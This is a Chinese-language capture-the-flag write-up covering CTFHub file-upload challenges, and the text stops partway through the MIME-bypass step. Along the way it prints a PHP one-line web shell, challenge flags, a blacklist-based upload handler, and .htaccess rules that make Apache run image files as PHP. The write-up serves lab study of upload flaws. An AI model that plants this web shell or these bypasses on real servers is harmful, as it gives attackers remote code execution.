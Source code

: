 ## CTFHUB--文件上传

[TOC]

```php
<?php @eval($_POST['cmd']); ?>
```



### 无限制

![image-20240828124801090](https://gitee.com/bx33661/image/raw/master/path/image-20240828124801090.png)

直接上传一句话代码，`muma.php`,利用蚁jian访问，在文件中寻找

```php
<?php // ctfhub{ea7b671901e141cfcc6a18a4}
```



### 前端验证

如果我们还按照之前的操作上传php文件的话，会被js拦截

1. 禁用js，上传一句话木马

![image-20240828125737993](https://gitee.com/bx33661/image/raw/master/path/image-20240828125737993.png)

2. 抓包，修改包名字，绕过前端

最后文件搜索找到

```php
<?php // ctfhub{9d3d140083c174996a1311e6}
```



### .htaccess

> 题目描述：htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能

代码审计：是后端过滤

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $ext = pathinfo($name)['extension'];
    $blacklist = array("php", "php7", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf");
    if (!in_array($ext, $blacklist)) {
        if (move_uploaded_file($_FILES['file']['tmp_name'], UPLOAD_PATH . $name)) {
            echo "<script>alert('上传成功')</script>";
            echo "上传文件相对路径<br>" . UPLOAD_URL_PATH . $name;
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "<script>alert('文件类型不匹配')</script>";
  
```

采用`.htaccess`文件绕过

```
# AddType application/x-httpd-php .jpg是一个配置指令，用于设置文件的MIME类型。MIME类型是一种用于描述文件内容的标准，它告诉服务器如何处理特定的文件。

# application/x-httpd-php是PHP解释器的MIME类型。这意味着当Apache服务器接收到一个请求，并且请求的文件是.jpg时，它将尝试使用PHP解释器来处理这个文件。
AddType application/x-httpd-php .jpg
```



```
#<FilesMatch "hacker">开始了一个匹配文件的条件。它告诉Apache服务器，只有当请求的文件名匹配到"hacker"时，才应用接下来的配置。

#在<FilesMatch>标签内部，SetHandler application/x-httpd-php是配置指令。SetHandler指令用于设置处理请求的程序或模块。在这个例子中，它告诉Apache服务器，当文件名匹配到"hacker"时，使用PHP解释器来处理这个文件。

#application/x-httpd-php是PHP解释器的MIME类型，它告诉服务器要使用PHP来解析和执行文件。

#最后，</FilesMatch>结束了文件匹配的条件，之后的配置指令将不再受此条件约束。

<FilesMatch "hacker">
SetHandler application/x-httpd-php
</FilesMatch>
```



### MIME绕过



- `text/plain`（纯文本）

- `text/html`（HTML文档）
- `text/javascript`（JS代码）
- `application/xhtml+xml`（XHTML文档） 
- `image/gif`（GIF图像）
- `image/jpeg`（JPEG图像）
- `image/png`（PNG图像） 
- `video/mpeg`（MPEG动画） 
- `application/octet-stream`（二进制数据） 
-  `application/pdf`（PDF文档）

老样子进入需要提交文件，上传php不行

bp抓包，修改`application/octet-stream` 